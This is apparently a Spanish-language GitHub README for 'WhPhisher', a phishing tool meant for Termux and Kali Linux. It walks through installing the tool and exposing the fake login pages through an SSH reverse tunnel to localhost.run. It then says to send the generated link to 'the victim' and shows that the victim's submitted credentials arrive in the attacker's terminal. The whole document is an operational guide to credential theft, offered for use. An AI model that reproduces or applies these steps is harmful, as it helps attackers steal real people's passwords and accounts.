 # WhPhisher
Herramienta para hacer phishing con muchos
métodos de túneling

# Probado en:
Termux, Kali Linux y devian

# Como instalar

pkg install python3

pkg install git

git clone https://github/WhBeatZ/WhPhisher

cd WhPhisher

chmod +x *

python3 whphisher.py

[![Screenshot-20211228-113217.png](https://i.postimg.cc/zf6sY5Zz/Screenshot-20211228-113217.png)](https://postimg.cc/06GW7TyF)

Elegir la página y esperar a que inicie el túneling.

# Solucion si no se genera el link o no funciona

Pasos:

Abrimos nueva sesión

cd

pkg install openssh -y

*ssh -R 80:localhost:8080 nokey@localhost.run*

Compartir el link que se generó

# Como debería de quedar
- Lo verde tapa información personal 
- La flecha amarilla apunta al link que hay que compartir

[![Pics-Art-12-28-12-04-12.jpg](https://i.postimg.cc/Dw0djMxM/Pics-Art-12-28-12-04-12.jpg)](https://postimg.cc/yDqZWv4m)

# Resultado

- El link que le enviaste a la victima: 

[![Screenshot-20211228-121057.png](https://i.postimg.cc/Gh2qVt2K/Screenshot-20211228-121057.png)](https://postimg.cc/jCpHJsyn)

Cuando la víctima pone sus credenciales, nos llegan en la terminal:

[![Screenshot-20211228-121119.png](https://i.postimg.cc/mg6DjdnV/Screenshot-20211228-121119.png)](https://postimg.cc/nXBpc1pQ)










